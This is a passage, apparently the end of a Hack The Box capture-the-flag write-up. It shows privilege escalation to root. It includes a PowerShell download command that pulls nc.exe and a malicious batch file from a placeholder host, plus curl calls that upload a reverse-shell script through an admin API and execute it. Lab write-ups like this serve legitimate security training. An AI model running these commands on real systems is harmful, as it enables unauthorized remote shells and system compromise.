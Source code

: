   > and we need to upload it and upload nc.exe to the machine.
  
  > command to upload files : powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
  
  - now we uploaded the evil.bat and the nc so let me tell you the commands i used:

> curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/rev.bat --data-binary @hey.bat

> curl -s -k -u admin https://localhost:8443/api/v1/scripts/ext/scripts/rev.bat

> curl -s -k -u admin https://localhost:8443/api/v1/queries/rev
	
> curl -s -k -u admin https://localhost:8443/api/v1/queries/scripts\rev.bat

> curl -s -k -u admin "https://localhost:8443/api/v1/queries/rev/commands/execute?time=3m"

- let's go

# []()Root-Flag

![Root](https://i.ibb.co/sqBcMGY/root.gif)

> d0ne!.

> Walkthrough
>
> [![Video](https://i.ibb.co/YTqbHBZ/page.png)](https://www.youtube.com/watch?v=ZhsPAguz4-Y)


- Thanks for reading.

 <script src="https://www.hackthebox.eu/badge/103789"></script>

	


